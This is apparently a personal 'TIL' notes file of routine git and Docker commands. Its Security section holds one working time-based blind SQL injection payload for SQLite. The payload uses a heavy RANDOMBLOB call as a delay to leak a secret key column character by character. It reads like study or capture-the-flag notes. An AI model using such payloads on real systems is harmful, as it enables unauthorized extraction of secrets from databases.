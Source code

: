 # TIL

## GIT

git checkout -b NEWBRANCH
git push --set-upstream origin BRANCHNAME

git pull origin your_branch # fetch and merge in one operation

git stash
git stash pop

### Ammend
git commit --amend 
:wq
git push -f ...  

### Change remote link 
git remote -v
git remote set-url origin NEW_URL
git pull # to verify

## Docker
### Starting a docker-compose.yml file
docker-compose pull
docker-compose up -d

### Building a docker image
docker build . -t NAME
docker run -p 8070:8080 NAME(Might also be a  url)
Then you can see it on  http://localhost:8070/Index.html

## Security
SELECT * from users where username='admin' and (CASE WHEN (substr(key, 1, 1) = 'a') then LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(200000000)))) else 1 end); --
this basically checks if there is the specified letter in the key at a given position. if there is, we do some operation (use sleep if not sqlite3)

